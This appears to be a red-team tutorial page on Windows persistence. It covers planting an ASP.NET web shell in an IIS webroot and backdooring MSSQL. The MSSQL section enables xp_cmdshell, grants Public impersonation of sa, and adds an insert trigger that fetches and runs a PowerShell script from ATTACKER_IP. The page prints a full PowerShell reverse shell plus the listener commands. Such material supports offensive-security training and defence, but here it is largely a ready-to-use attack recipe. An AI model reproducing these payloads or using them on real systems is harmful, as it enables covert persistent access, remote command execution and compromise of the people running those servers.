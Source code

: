 # Persisting through existing services

Any application where you have some degree of control on what gets executed can be backdoored in a similar way. 
The possibilities are endless!

## Using web shells

Download a web shell like 
[ASP.NET web shell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx). Transfer it to 
the target machine and move it into the webroot, which for IIS by default is the `C:\inetpub\wwwroot` directory.

    move shell.aspx C:\inetpub\wwwroot\

We can then run commands from the web server by going to the following URL:

    http://<IP target>/shell.aspx

Note: If you are getting a `Permission Denied` error while accessing the shell's URL, just grant everyone full 
permissions on the file to get it working. You can do so with 

    icacls shell.aspx /grant Everyone:F

Web shells provide a simple way to leave a backdoor on a system, it is usual for blue teams to check file integrity 
in the web directories. Any change to a file in there will probably trigger an alert.

## Using MSSQL as a backdoor

There are many ways to plant backdoors in MSSQL Server installations, one of which is abusing triggers. 
Triggers in MSSQL allow for bind actions to be performed when specific events occur in the database. Those events can 
range from a user logging in up to data being inserted, updated or deleted from a given table.

`xp_cmdshell` is a stored procedure provided by default in any MSSQL installation. It allows for running commands 
directly in the system's console but comes disabled by default. To enable it, open 
`Microsoft SQL Server Management Studio 18`, from the start menu. When asked for authentication, use 
`Windows Authentication` (the default value), and you will be logged on with the credentials of the current Windows 
User. By default, the local Administrator account will have access to all DBs.

Once logged in, click on the `New Query` button to open the query editor:


Run the following SQL sentences to enable the `Advanced Options` in the MSSQL configuration, and 
enable `xp_cmdshell`.

    sp_configure 'Show Advanced Options',1;
    RECONFIGURE;
    GO
    
    sp_configure 'xp_cmdshell',1;
    RECONFIGURE;
    GO

Next up is making sure that any website accessing the database can run `xp_cmdshell`. By default, only database 
users with the sysadmin role will be able to do so. Since it is expected that web applications use a restricted 
database user, we can grant privileges to all users to impersonate the sa user, which is the default database 
administrator:

    USE master
    
    GRANT IMPERSONATE ON LOGIN::sa to [Public];

Configuring a trigger starts by changing to the `HRDB` database:

    USE HRDB

The trigger will leverage `xp_cmdshell` to execute Powershell to download and run a `.ps1` file from 
a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made 
into the `Employees` table of the `HRDB` database:

    CREATE TRIGGER [sql_backdoor]
    ON HRDB.dbo.Employees 
    FOR INSERT AS
    
    EXECUTE AS LOGIN = 'sa'
    EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';

Now that the backdoor is set up, let's create evilscript.ps1 in our attacker's machine, which will contain a Powershell reverse shell:

    $client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);
    
    $stream = $client.GetStream();
    [byte[]]$bytes = 0..65535|%{0};
    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
        $sendback = (iex $data 2>&1 | Out-String );
        $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $stream.Write($sendbyte,0,$sendbyte.Length);
        $stream.Flush()
    };
    
    $client.Close()

We will need to open two terminals to handle the connections involved in this exploit:

The trigger will perform the first connection to download and execute `evilscript.ps1`. Our trigger is using port 8000 for that.

    python -m http.server

The second connection will be a reverse shell on port 4454 back to our attacker machine.

    nc -lvp 4454

Navigate to `http://IP target/` and insert an employee into the web application.
